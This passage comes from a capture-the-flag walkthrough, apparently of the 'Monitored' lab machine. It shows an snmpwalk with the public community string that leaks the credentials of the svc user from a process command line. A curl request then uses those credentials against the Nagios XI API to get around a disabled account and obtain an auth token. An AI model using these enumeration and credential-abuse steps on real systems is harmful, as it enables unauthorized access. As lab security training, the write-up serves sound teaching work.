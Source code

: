 Without the credentials or identified version we don't come any further.

### SNMP port 161

```shell
labadmin@labmachine:~/monitored$ snmpwalk -v 2c -c public nagios.monitored.htb | tee snmpwalk.log
iso.3.6.1.2.1.1.1.0 = STRING: "Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
...[OMITTED]...
iso.3.6.1.2.1.25.4.2.1.5.612 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
...[OMITTED]...
```

The output contains quite some data, but we found an execution of `check_host.sh`. And it takes arguments that potentially can be user credentials for user `svc` with password `XjH7VCehowpR1xZB`.

We try login on the web page but it does not work.

![monitored3](./assets/monitored3.png)

### Nagios Xi API - Bypassing Disabled Account

Searching around on the internet we found this post on how to authenticate and access the APi.

[https://support.nagios.com/forum/viewtopic.php?p=310411#p310411](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411)

The authentication is successful and we get a token.

```shell
labadmin@labmachine:~/monitored$ curl -X POST -k -L 'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' --data 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "d8891c30c329e7dce9cbbef7b8a6e21d25e53be4",
    "valid_min": 5,
    "valid_until": "Thu, 16 May 2024 02:59:08 -0400"
}
```
